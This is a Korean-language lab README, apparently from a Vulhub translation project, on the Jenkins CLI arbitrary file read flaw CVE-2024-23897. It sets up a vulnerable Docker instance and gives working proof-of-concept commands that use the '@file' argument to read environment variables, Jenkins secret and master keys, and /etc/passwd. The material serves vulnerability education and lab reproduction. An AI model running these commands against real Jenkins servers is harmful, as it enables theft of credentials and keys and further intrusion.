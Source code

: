 # CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.    
**발견된 취약점**    
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.    
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.     
**args4j**    
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.    
```
docker compose up -d
 ```    
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
``` http://localhost:8080/ ``` or ``` http://본인-ip주소:8080/ ```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/스크린샷 2025-04-27 181243.png)        
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'           
**컨테이너 접속하기**        
 ```
docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기
```

## PoC
1. ```jenkins-cli.jar```을 해당 링크, ```http://localhost:8080/jnlpJars/jenkins-cli.jar```로부터 다운로드한다.
```
apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치
```
2. '/proc/self/environ' 파일을 읽는다. 'JENKINS_HOME=/var/jenkins_home'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image2.png)
3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image3.png)
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image4.png)
- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image5.png)
## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>

